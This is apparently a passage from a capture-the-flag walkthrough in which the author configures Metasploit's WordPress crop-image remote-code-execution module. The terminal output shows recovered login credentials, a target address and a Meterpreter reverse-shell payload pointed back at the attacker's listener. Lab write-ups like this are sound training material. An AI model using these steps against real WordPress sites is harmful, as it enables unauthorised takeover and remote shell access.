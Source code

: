 
I tried the first two, but didnt work...so it seems like metasploit is the way

```
msf6 > search wordpress 5.0

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_crop_rce               2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload
   1  exploit/unix/webapp/wp_property_upload_exec  2012-03-26       excellent  Yes    WordPress WP-Property PHP File Upload Vulnerability


Interact with a module by name or index. For example info 1, use 1 or use exploit/unix/webapp/wp_property_upload_exec

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/wp_crop_rce) >

```

I didnt use metasploit in a while and It's kinda cool to set options again

```
msf6 exploit(multi/http/wp_crop_rce) > options

Module options (exploit/multi/http/wp_crop_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   cutiepie1        yes       The WordPress password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.174.85     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   USERNAME   kwheel           yes       The WordPress username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.8.226.203     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   WordPress


```

